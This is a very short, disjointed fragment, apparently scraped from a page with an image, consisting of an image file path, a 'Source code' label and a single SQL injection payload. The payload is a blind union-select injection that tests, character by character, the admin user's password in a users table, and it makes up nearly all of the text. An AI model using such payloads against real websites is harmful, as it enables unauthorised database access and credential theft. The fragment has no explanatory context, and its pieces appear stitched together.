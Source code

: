 ' and 0 union select 1, 1, (select if(substring((select password from users where useraname = 'admin') , 1, 1) = 'a', 1, 0)) -- -
